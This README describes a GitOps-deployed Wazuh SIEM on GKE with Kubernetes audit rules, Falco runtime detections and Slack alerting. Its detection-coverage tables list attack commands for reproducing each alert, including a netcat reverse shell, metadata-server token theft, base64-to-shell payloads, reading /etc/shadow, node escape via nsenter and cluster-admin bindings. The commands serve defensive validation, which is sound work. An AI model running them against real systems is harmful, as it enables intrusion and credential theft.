




# wazuh-siem-gitops

A **Wazuh 5** SIEM on GKE for the audit and security logs of a Google Cloud project, the Kubernetes API
audit log of the cluster, and **Falco** runtime alerts from its nodes. Everything is declared in this
repository: **Terraform** builds the Google Cloud side, **Argo CD** reconciles every object in the cluster,
including the Wazuh configuration, certificates, credentials, detection content and alert monitors. No
service account key exists anywhere: Google Cloud access goes through **GKE Workload Identity**.

## Highlights

- **Keyless.** The Wazuh GCP collector pulls Pub/Sub with Workload Identity; Falcosidekick publishes to it
  and External Secrets reads Secret Manager the same way. No JSON key is created, stored or mounted.
- **Three layers of detection.** Google Cloud audit logs with the standard Wazuh ruleset and custom
  high-signal rules (service account keys, IAM changes, impersonation, public buckets, secret reads), the GKE
  Kubernetes audit log with custom Sigma rules (exec into pods, RBAC, secrets, workloads outside GitOps,
  admission webhooks), and Falco eBPF on every node for what runs inside containers (sensitive file reads,
  reverse shells, privileged or host-mounted containers, untrusted images). Every technique is listed with
  how to reproduce it under [Detection coverage](#detection-coverage).
- **Fully GitOps.** Wazuh configuration, PKI, generated passwords, agent enrollment, ruleset activation,
  custom decoders, rules and detectors, the Slack channel, alert monitors and the security dashboard are all
  reconciled from Git; nothing is clicked in the dashboard.
- **Scale-out.** Dedicated indexer cluster-manager and data nodes, a manager master with workers, and node
  certificates with wildcard SANs, so adding replicas needs no new certificate.
- **Encrypted with Cloud KMS.** Kubernetes Secrets in etcd, node boot disks and every persistent volume.
- **Alerts from Wazuh only**, to Slack, colored by level and titled with what happened, for cloud, Kubernetes
  and Falco findings alike, plus alerts on the health of the SIEM itself.

## Topology



| Component | Replicas | Placement | Storage |
|---|---|---|---|
| Indexer cluster-manager | 1, scale out to 3 by `replicas` and `discovery.seed_hosts` | pool `siem` | 5 Gi `pd-balanced-cmek` |
| Indexer data (+ ingest) | 1, scale out by `replicas` | pool `siem` | 50 Gi `pd-balanced-cmek` |
| Manager master / worker | 1 / 1, scale out workers by `replicas` | pool `siem` | 10 Gi `pd-balanced-cmek` |
| Dashboard | 1, stateless | pool `general` | — |
| GCP collector | 1 | pool `general` | 1 Gi `pd-standard-cmek`, agent identity |
| Falco / Falcosidekick | 1 per node / 1 | every node / pool `general` | — |

Shards have no replica: the single data node keeps every shard on its persistent disk, so a Spot preemption stops the indexer until the pod is rescheduled, and no data is lost. With more data nodes, raising `cluster.default_number_of_replicas` in [`indexer.yaml`](infrastructure/configs/wazuh/base/indexer.yaml) gives new indices a replica on another node.

## Keyless Google Cloud access

The Wazuh `gcloud` wodle only builds its Pub/Sub client from a service account key file. The collector image
([`images/wazuh-gcp-collector`](images/wazuh-gcp-collector)) adds Python 3.12 with the client libraries
Wazuh pins, and [`patch_wodle.py`](images/wazuh-gcp-collector/patch_wodle.py) changes two things in it:

- the client uses **Application Default Credentials** unless the credentials file is a service account key,
  so the GKE metadata server provides the identity;
- each pull run stops after 30 seconds, so a steady trickle of logs never keeps a run past the one-minute
  interval.

The patch matches the upstream code exactly; if a Wazuh upgrade changes it, the image build fails instead of
shipping an unpatched wodle. On the Google Cloud side, `roles/pubsub.subscriber` is granted on the
subscription only, to the Kubernetes ServiceAccount itself
(`principal://…/subject/ns/wazuh/sa/wazuh-gcp-collector`): there is no Google service account to leak a key
from. A NetworkPolicy opens the metadata server (`169.254.169.254`, ports 80 and 8080) to that Pod only.

## Wazuh on Kubernetes, the GitOps way

| Concern | Implementation |
|---|---|
| Certificates | cert-manager: deployment CA and one certificate per role, PKCS#8 keys, wildcard SANs for indexer nodes |
| Passwords and cluster key | External Secrets `Password` generators, `refreshPolicy: CreatedOnce` (Wazuh keeps its first passwords) |
| Manager configuration | `wazuh-manager.conf` in a hashed ConfigMap, copied over on every start; a change rolls the managers |
| `vm.max_map_count` | GKE node system config on the `siem` pool, so no privileged container |
| Agent enrollment | Argo CD Sync hook mints an enrollment token through the manager API into a Secret |
| GCP ruleset | Sync hook enables the `gcp` integration of the standard ruleset through the indexer content manager |
| Slack and monitors | Sync hook keeps the notification channel and the monitors in [`alerting/`](infrastructure/configs/wazuh/base/alerting) |
| Kubernetes detections and dashboard | Sync hook reconciles the rules, detector and dashboard in [`k8s-security/`](infrastructure/configs/wazuh/base/k8s-security) |
| Network | default-deny NetworkPolicies per component, including NodeLocal DNSCache |

## Alerts

| Monitor | Fires when | Slack color |
|---|---|---|
| Wazuh findings to Slack | a new finding of level high or critical | red, bright red |
| Wazuh indexer health | the indexer cluster is not green | orange |
| Wazuh indexer disk | a node disk is above 75% | orange |
| Wazuh GCP log pipeline stalled | no GCP event is indexed for 15 minutes | bright red |
| Falco runtime detection silent | no Falco canary reaches Wazuh for 30 minutes | bright red |
| Kubernetes port scan | NetworkPolicies deny one pod 10 or more ports or 10 or more hosts in 5 minutes; one message per pod | bright red |
| Permission enumeration | Google Cloud or Kubernetes denies one caller on 4 or more API methods in 5 minutes; one message per caller | bright red |

A Google Cloud API call reaches Slack in about three minutes. Findings of level low and medium stay in the dashboard.

Findings as they arrive in Slack: Kubernetes API actions from the GKE audit log, and Falco detections from inside
containers, each with who did it, where, and the MITRE technique.







## Kubernetes security

GKE runs the Kubernetes API server, so its audit log is not a file on a node: GKE writes it to Cloud Audit
Logs, and the same sink that carries the Google Cloud audit logs brings the Admin Activity entries of
`k8s.io` (every write to the API) to Wazuh, decoded by the `gcp` integration. Kubernetes reads go to the
Data Access log (`ADMIN_READ`, `DATA_READ`, `DATA_WRITE` on `container.googleapis.com`); an exclusion keeps
only denied requests, secret reads, `nodes/proxy` and TokenRequests by principals outside the cluster
system, both out of the `_Default` bucket, so the controllers' reads are not billed, and out of the sinks.

Google Cloud logs a denied read only in the Data Access log, so `ADMIN_READ` is on for every service, and a
second exclusion drops the successful reads of the services that are not audited for their own sake
(reading an API key string is one that is kept). The
monitor [`permission-enumeration-monitor.json`](infrastructure/configs/wazuh/base/alerting/permission-enumeration-monitor.json)
groups the denied requests of the last 5 minutes by principal, or by source IP when the denial carries no
identity, and alerts when one caller was denied on 4 or more API methods, one alert and one Slack message
per caller, like the port scan monitor.

[`k8s-security/gke-kubernetes.json`](infrastructure/configs/wazuh/base/k8s-security/gke-kubernetes.json) holds Sigma rules on
those events. A Sync hook writes them to a user-managed `gke-kubernetes` integration of the content manager,
promotes them draft → test → custom and points a Ruleset Management detector of the same name at
`wazuh-events-v5-cloud-services`; a rule removed from the file is deleted. Every rule except the anonymous
one ignores the API server, the GKE system components, the cluster controllers, Argo CD, cert-manager,
External Secrets and the enrollment hook, so what reaches Slack is a person or a workload acting on the API:

| Rule | Level |
|---|---|
| Exec or attach into a pod | high |
| Exec or attach into a pod of `kube-system`, `wazuh`, `argocd`, `cert-manager`, `external-secrets` or `falco` | critical |
| Ephemeral container added to a pod (`kubectl debug`) | high |
| Port-forward to a pod | medium |
| Pod or workload controller created outside GitOps | high |
| Pod or workload controller created in `kube-system`, `kube-public`, `kube-node-lease` or a namespace of the SIEM, GitOps, secret or runtime tooling | critical |
| Pod or workload controller patched or updated outside GitOps | high |
| Secret created, changed or deleted outside GitOps | high |
| `kube-system` ConfigMap created, changed or deleted | high |
| NetworkPolicy created, changed or deleted outside GitOps | high |
| Namespace changed or deleted outside GitOps | high |
| PersistentVolumeClaim or PersistentVolume deleted | high |
| Workload, Service, ServiceAccount or ConfigMap deleted in a system or security namespace | high |
| Any object of the `falco` namespace created, changed or deleted outside GitOps | critical |
| Service, Ingress or Gateway API route created or changed outside GitOps | high |
| Role or ClusterRole created or changed | high |
| RoleBinding or ClusterRoleBinding created or changed | high |
| Service account created in `kube-system` | high |
| Write denied to a workload service account (a pod probing its permissions) | high |
| Write denied to a user | medium |
| Write from curl, wget, a Python HTTP library or a Kubernetes attack tool | high |
| Certificate signing request created | high |
| Certificate signing request approved | critical |
| Admission webhook created, changed or deleted | high |
| APIService (aggregated API) created or changed | critical |
| CustomResourceDefinition created, changed or deleted outside GitOps | high |
| Write accepted from an anonymous user | critical |

The request body of an audit entry stays in the unindexed `event.original`. For workload and RBAC writes
and for impersonated calls, the root decoder of the custom space also lets the entry through to the
`gke-requests` decoder ([`gke-requests.json`](infrastructure/configs/wazuh/base/k8s-security/gke-requests.json)),
which reads only the request part of the body (the response holds the whole object, also for a patch that
changed nothing dangerous) and tags it into `wazuh-events-v5-security`: privileged containers, host
namespaces, `hostPath`, `hostPort`, `nodeName`, shared process namespaces, `SYS_ADMIN` and other dangerous
capabilities, bindings to admin roles, roles with wildcards, escalation verbs or sensitive resources, and
impersonation. The rules of its own detector alert on these tags. A stolen service account
token cannot be replayed from outside: the DNS endpoint accepts Google IAM credentials only and the IP
endpoint only the node subnet.

GKE Dataplane V2 logs every connection a NetworkPolicy denies
([`network-logging.yaml`](infrastructure/configs/namespaces/base/network-logging.yaml)); allowed
connections are not logged. The `policy-action` log goes through the same sinks, and the `gke-network-policy`
decoder ([`gke-network-policy.json`](infrastructure/configs/wazuh/base/k8s-security/gke-network-policy.json))
writes the source pod, the destination pod, IP and port into `wazuh-events-v5-network-activity`. A medium
rule marks a denied connection from another namespace into a security namespace, and the monitor
[`port-scan-monitor.json`](infrastructure/configs/wazuh/base/alerting/port-scan-monitor.json) groups the
denials of the last 5 minutes by source pod and alerts when one pod reached 10 or more ports or hosts. It is
a bucket-level monitor: every pod gets its own alert and one Slack message when its scan starts, while
another pod's scan already alerting does not hold it back. The alerting plugin does not hand the bucket
counts to the message, so the message names the pod and the window, and the counts are in the index.

The same hook writes the **GKE Kubernetes security** dashboard: findings by level, rule and time, the
actions of people and workloads by principal and source IP, exec sessions, RBAC changes, secret, service
account and certificate operations, and write trends by method and namespace.

## Runtime security (Falco)

Audit logs only show calls to the API. What runs inside a container (a shell, a dropped binary, a read of
`/etc/shadow`, a reverse shell) is seen by Falco, a DaemonSet on every node, including the tainted `siem`
pool. It uses the modern eBPF probe in least-privileged mode: the capabilities `BPF`, `PERFMON`,
`SYS_RESOURCE` and `SYS_PTRACE` instead of a privileged container, which is why the `falco` namespace
enforces the `privileged` Pod Security level.

Falco sends its alerts to Falcosidekick, which publishes them to the same Pub/Sub topic as the audit logs
with Workload Identity (`roles/pubsub.publisher` on the topic for `falco/falco-falcosidekick`, no key);
the GCP collector brings them to Wazuh with the rest. Falco adds `wazuh_*` fields to each alert (namespace,
pod, container, image, process, command line, user, file), so no node runs a Wazuh agent.

[`k8s-security/falco.json`](infrastructure/configs/wazuh/base/k8s-security/falco.json) is the second
content pack of the same Sync hook. Its root decoder becomes the root of the custom space policy and lets
through only the messages that carry `wazuh_integration: falco`; the `falco` decoder maps them to the
Wazuh Common Schema (`rule.name`, `log.level`, `process.*`, `container.*`, `orchestrator.*`, `file.path`)
into `wazuh-events-v5-security`, and a `falco` detector turns them into findings by Falco priority:

| Falco priority | Finding level |
|---|---|
| Emergency, Alert, Critical | critical |
| Error, Warning | high |
| Notice | medium |

On top of the stock Falco rules, [`values.yaml`](infrastructure/controllers/falco/values.yaml) adds rules
evaluated when a container starts, which the audit log cannot see because it keeps the pod spec unindexed:

| Falco rule | Fires when a container starts |
|---|---|
| Privileged container started | privileged |
| Container with host namespaces started | in the host network, PID or IPC namespace |
| Container with sensitive host mount started | with `/`, `/etc`, `/proc`, `/sys`, `/dev`, a container runtime socket or kubelet credentials mounted |
| Container from an untrusted image started | from an image outside the allowlist of what this cluster runs |

and rules for post-exploitation steps the stock ruleset leaves out:

| Falco rule | Priority | Fires when |
|---|---|---|
| Contact GKE metadata server from container | Critical | a container other than the collector, Falcosidekick, External Secrets and GKE system pods connects to `169.254.169.254`, where Workload Identity hands out Google access tokens |
| Package management process launched in container | Error | `apk`, `apt`, `yum`, `dnf`, `pip`, `npm` and the like run inside a running container |
| Write below binary directory in container | Error | a file is written below `/bin`, `/sbin`, `/usr/bin`, `/usr/sbin` or `/usr/local/bin` |
| Shell history deleted or truncated in container | Warning | a `*_history` file is deleted, renamed or emptied |
| Credential file read in container | Error | a gcloud, kubeconfig, AWS, Docker or Git credential file or an SSH private key is opened for reading outside the platform workloads |
| Setuid or setgid bit set in container | Error | `chmod u+s` or `g+s` on a file |
| Mount or namespace tool in container | Critical | `mount`, `umount`, `nsenter` or `unshare` runs outside the GKE system and platform workloads |
| SSH or remote copy client in container | Error | `ssh`, `scp`, `sftp`, `sshpass`, `rsync` or `dbclient` runs |
| Environment of another process read in container | Error | `/proc/<pid>/environ` of another process is opened |
| Python startup hook modified in container | Error | a `.pth`, `sitecustomize` or `usercustomize` file is written in a Python site directory |

The stock rule *Redirect STDOUT/STDIN to Network Connection in Container*, which is how a reverse shell
looks, is raised from Notice to Critical.

Besides the stable ruleset, falcoctl installs the [incubating and sandbox rulesets](https://falcosecurity.github.io/rules/)
with every rule off except these, which cover what the stable and custom rules do not; the GKE system and
platform workloads are excluded from the ones they trip by design (device, `/host`, `setns`, BPF, download
tools, `GLIBC_TUNABLES`):

| Upstream rule | Priority | Catches |
|---|---|---|
| Polkit Local Privilege Escalation Vulnerability (CVE-2021-4034), Sudo Potential Privilege Escalation, Unprivileged Delegation of Page Faults Handling to a Userspace Process | Critical | known local privilege escalation exploits |
| Detect crypto miners using the Stratum protocol | Critical | a miner given a `stratum+tcp` pool |
| Web Server Spawned Shell, Reverse Shell from Web Server | Critical | a web server running a shell or a reverse shell, as after remote code execution |
| Privileged Container Device Access | Critical | a container reading or writing a node disk (`/dev/sd*`, `/dev/nvme*`) |
| Container Access to Host Sensitive Paths | Warning | a container opening files under a host mount (`/host/`, `/rootfs/`) |
| Modify Shell Configuration File | Warning | a backdoor in `.bashrc`, `.profile` and the like |
| Create files below dev | Error | files hidden in `/dev` |
| Backdoored library loaded into SSHD (CVE-2024-3094) | Warning | the xz backdoor |
| Change thread namespace, BPF Program Not Profiled | Notice | `setns` and BPF programs loaded outside the platform |
| Exfiltrating Artifacts via Kubernetes Control Plane | Error (raised from Notice) | `kubectl cp` out of a container |
| Potential Local Privilege Escalation via Environment Variables Misuse | Notice | `GLIBC_TUNABLES` (Looney Tunables) |
| Launch Ingress Remote File Copy Tools in Container | Notice | `curl` or `wget` fetching files into a container |
| User mgmt binaries, Basic Interactive Reconnaissance | Notice | account tools on a node, `whoami`/`id`-style recon in a terminal |

The GKE system DaemonSets need privileges, host namespaces and host mounts, so the first three rules skip
`kube-system` containers whose image comes from the GKE release registry, and Falco's own containers; any
other image in those namespaces still alerts. An image from a new registry alerts until it joins
`wazuh_trusted_images`.

A `falco-canary` CronJob runs a marked command every 10 minutes; Falco turns it into a *Falco canary*
event that travels the whole path to Wazuh, and the monitor *Falco runtime detection silent* alerts when no
canary arrives for 30 minutes, so a Falco that is stopped, blinded or cut off does not go unnoticed. The
canary is indexed but raises no finding.

A Falco finding reaches Slack titled with the Falco rule (for example *Read sensitive file untrusted*),
then the Wazuh rule that raised it (*Falco runtime threat: Warning*), the node, the process and user, the
container and image, the namespace and pod, and the Falco output. The standard `gcp` decoder also keeps a
generic copy of each alert in `wazuh-events-v5-cloud-services`, without findings.

## Detection coverage

What an attacker does, which rule catches it and at what level. High and critical findings reach Slack.
Each line can be reproduced in a throwaway namespace (the cluster rules) or with throwaway `sim-`
resources (the Google Cloud rules), removed right after.

### Kubernetes API (GKE audit log, `gke-kubernetes`)

| Technique | Try it | Rule | Level |
|---|---|---|---|
| Shell into a pod | `kubectl exec <pod> -- sh` | GKE exec or attach into a pod | high |
| Shell into a system or security pod | `kubectl -n wazuh exec <pod> -- sh` | GKE exec or attach into a system or security pod | critical |
| Debug container | `kubectl debug <pod> --image=busybox` | GKE ephemeral container added to a pod | high |
| Workload outside GitOps | `kubectl run x --image=busybox` | GKE workload created outside GitOps | high |
| Workload in a system namespace | `kubectl -n kube-system run x --image=busybox` | GKE workload created in a system or security namespace outside GitOps | critical |
| Backdoored workload | `kubectl set image` / `kubectl edit` / `kubectl rollout restart` | GKE workload modified outside GitOps | high |
| Persistence by CronJob | `kubectl create cronjob x --image=busybox --schedule='*/30 * * * *' -- sh` | GKE workload created outside GitOps | high |
| Privilege grant | `kubectl create clusterrolebinding x --clusterrole=cluster-admin --serviceaccount=ns:sa` | GKE RBAC binding created or changed | high |
| Stolen pod token probing the API | `curl` the API server with the pod's token for a write it may not do | GKE write denied to a workload service account, GKE API write from a scripting or attack tool | high |
| Secret planted or changed | `kubectl create secret generic x --from-literal=k=v` | GKE secret changed outside GitOps | high |
| Long-lived client certificate | create and approve a CertificateSigningRequest | GKE certificate signing request created / approved | high / critical |
| Admission webhook | create a ValidatingWebhookConfiguration | GKE admission webhook changed | high |
| Aggregated API | create an APIService | GKE aggregated API service registered | critical |
| Network opened | create or delete a NetworkPolicy | GKE NetworkPolicy changed outside GitOps | high |
| Service exposed | `kubectl expose` / `kubectl create service` | GKE service exposed outside GitOps | high |
| Data destroyed | `kubectl delete pvc x` | GKE persistent volume deleted outside GitOps | high |
| Runtime security stopped | `kubectl -n falco delete daemonset falco` | GKE runtime security tampered outside GitOps | critical |
| Secret dump | `kubectl get secrets -A` | GKE secrets listed | critical |
| Secret read | `kubectl -n <ns> get secret <name> -o yaml` | GKE secret read | high |
| Pod hunting for secrets | `curl` the API with the pod's token for `/api/v1/namespaces/<ns>/secrets` | GKE secret access denied to a workload service account | high |
| Kubelet through the API server | `kubectl get --raw /api/v1/nodes/<node>/proxy/pods` | GKE node proxy access | critical |
| Privileged workload | create a pod or Deployment with `securityContext.privileged: true` | GKE privileged workload requested | critical |
| Host namespaces | a pod spec with `hostNetwork`, `hostPID` or `hostIPC` | GKE workload with host namespaces requested | critical |
| Node filesystem | a pod spec with a `hostPath` volume | GKE workload with a hostPath volume requested | high |
| `SYS_ADMIN` | a container with `capabilities.add: [SYS_ADMIN]` | GKE workload with CAP_SYS_ADMIN requested | critical |
| Admin role granted | `kubectl create clusterrolebinding x --clusterrole=cluster-admin …` (also `admin`, `edit`) | GKE binding to an admin role | critical |
| Dangerous capability | a container with `capabilities.add` of `NET_RAW`, `NET_ADMIN`, `SYS_PTRACE`, `SYS_MODULE`, `DAC_READ_SEARCH`, `BPF` or `ALL` | GKE workload with a dangerous capability requested | high |
| Scheduler bypassed, node ports or processes shared | a pod with `nodeName` (as `kubectl debug node/…` makes), `hostPort` or `shareProcessNamespace` | GKE workload pinned to a node or sharing host ports or processes | high |
| Role with wildcards | a Role or ClusterRole with `verbs: ["*"]`, `resources: ["*"]` or `apiGroups: ["*"]` | GKE RBAC role with wildcard permissions | critical |
| Escalation verbs | a Role or ClusterRole granting `bind`, `escalate` or `impersonate` | GKE RBAC role allows privilege escalation | critical |
| Sensitive grants | a Role or ClusterRole on `secrets`, `pods/exec`, `nodes/proxy`, `serviceaccounts/token`, CSR approval or webhooks | GKE RBAC role grants sensitive access | high |
| Impersonation | `kubectl --as=<user or service account> …` on a write | GKE impersonation used (the identity used is `user.target.name`) | high |
| Token that never expires | a Secret of type `kubernetes.io/service-account-token` | GKE long-lived service account token created | critical |
| Cluster-wide or scheduled backdoor | `kubectl create daemonset`-style manifest or a CronJob, outside GitOps | GKE DaemonSet or CronJob created outside GitOps | critical |
| Events wiped | `kubectl delete --raw /apis/events.k8s.io/v1/namespaces/<ns>/events` | GKE events deleted | high |
| Impersonation (`kubectl --as`) | any of the above with `--as=system:serviceaccount:argocd:argocd-application-controller` | the same rules: the audit log keeps the real caller | as above |

### Inside containers (Falco, `falco`)

| Technique | Try it | Falco rule | Level |
|---|---|---|---|
| Read credentials | `cat /etc/shadow` | Read sensitive file untrusted | high |
| Hunt for keys | `find / -name id_rsa`, `grep -r password /etc` | Search Private Keys or Passwords | high |
| Malware dropped and run | download a binary to `/tmp` and run it | Drop and execute new binary in container | critical |
| Fileless malware | run a binary from `memfd_create` | Fileless execution via memfd_create | critical |
| Reverse shell | `nc <host> 4444 -e /bin/sh` | Redirect STDOUT/STDIN to Network Connection in Container | critical |
| Token theft from the metadata server | `wget --header 'Metadata-Flavor: Google' http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token` | Contact GKE metadata server from container | critical |
| Process injection | `ptrace` attach to another process | PTRACE attached to process | high |
| Tools installed | `apk add`, `apt-get install`, `pip install` | Package management process launched in container | high |
| Binary planted | write a file under `/usr/bin` or `/usr/local/bin` | Write below binary directory in container | high |
| Tracks covered | empty a log under `/var/log`, delete `~/.ash_history` | Clear Log Activities, Shell history deleted or truncated in container | high |
| Hard or symbolic link to a sensitive file | `ln /etc/shadow /tmp/x`, `ln -s /etc/shadow /tmp/x` | Create Hardlink / Symlink Over Sensitive Files | high |
| Directory traversal | `cat ../../../../etc/passwd` | Directory traversal monitored file read | high |
| Privileged pod | pod with `securityContext.privileged: true` | Privileged container started | critical |
| Host namespaces | pod with `hostNetwork` or `hostPID` | Container with host namespaces started | critical |
| Host filesystem mounted | pod with a `hostPath` of `/`, `/etc` or a runtime socket | Container with sensitive host mount started | critical |
| Escape to the node | `nsenter -t 1 -m -u -i -n -p` from a privileged pod, then read a host file | Privileged container started, Read sensitive file untrusted | critical, high |
| Untrusted image | `kubectl run x --image=alpine` | Container from an untrusted image started | critical |
| Falco silenced | stop Falco or cut its path to Wazuh for 30 minutes | Falco runtime detection silent (monitor) | critical |
| Crypto miner | run `xmrig` or anything with `stratum+tcp://`, `--donate-level` | Crypto miner launched in container | critical |
| Mining pool traffic | connect to port 3333, 5555, 7777, 14444 and other pool ports | Outbound connection to a mining pool port | critical |
| Cluster or runtime client in a pod | `kubectl`, `crictl`, `ctr`, `docker`, `peirates` inside a container | Kubernetes or container runtime client in container | high |
| Network reconnaissance | `nmap`, `masscan`, `tcpdump`, `socat` inside a container | Network reconnaissance tool in container | high |
| Kubelet API | `curl -k https://<node-ip>:10250/pods` from a pod | Contact kubelet API from container | critical |
| Tokens of every pod on the node | read `/var/lib/kubelet/pods/*/volumes/kubernetes.io~projected/*/token` through a host mount | Read service account token of another pod | critical |
| Backdoor account, SSH key or cron job | write `/etc/passwd`, `~/.ssh/authorized_keys`, `/etc/crontabs/*` | Persistence file modified in container | high |
| Obfuscated payload | `echo <b64> \| base64 -d \| sh` | Base64 decoding in container | high |
| Execution from shared memory | run a binary copied to `/dev/shm` | Execution from /dev/shm | high |
